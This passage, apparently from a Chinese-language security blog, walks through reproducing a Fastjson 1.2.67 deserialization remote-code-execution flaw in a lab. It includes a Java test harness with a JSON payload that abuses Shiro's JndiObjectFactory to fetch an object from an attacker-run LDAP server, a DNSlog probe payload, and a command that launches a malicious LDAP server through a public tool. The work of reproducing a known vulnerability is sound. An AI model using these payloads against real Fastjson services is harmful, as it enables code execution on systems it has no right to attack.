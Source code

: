 如果还是不行，建议换台电脑或者直接放弃。用虚拟机+docker吧。

### 开始复现（好像是最简单的）

我们来复习一下攻击流程

![image-20200704111745527](fastjson_1267反序列化复现.assets/aHR0cHM6Ly9naXRlZS5jb20vZ29kemVvL2Jsb2dpbWcvcmF3L21hc3Rlci9pbWcvMjAyMDA3MDQxMTE3NDUucG5n)

---

IDEA工程中添加一个新的java文件，定义一个json字符串payload，用fastjson解析它。

```
import com.alibaba.fastjson.JSON;
import com.alibaba.fastjson.parser.ParserConfig;
import org.apache.shiro.*;
public class test {
    public static void main(String[] args) {
        System.setProperty("com.sun.jndi.rmi.object.trustURLCodebase", "true");
        ParserConfig.getGlobalInstance().setAutoTypeSupport(true);

        String payload = "{\"@type\":\"org.apache.shiro.jndi.JndiObjectFactory\",\"resourceName\":\"ldap://yourserver:8888/Object\"}";
        //String payload = "{\"zeo\":{\"@type\":\"java.net.Inet4Address\",\"val\":\"rny3ko.dnslog.cn\"}}";


        try {
            JSON.parseObject(payload);
        } catch (Exception e) {
            e.printStackTrace();
        }

    }
}
```

---

在VPS上启动我们的LDAP服务

这里推荐使用国内师傅写的RMI/LDAP一键启动工具：https://github.com/wyzxxz/fastjson_rce_tool

``` bash
java -cp fastjson_tool.jar fastjson.HLDAPServer 256.256.256.256 8888  "calc"
```

![image-20201115184210176](fastjson_1267反序列化复现.assets/image-20201115184210176.png)
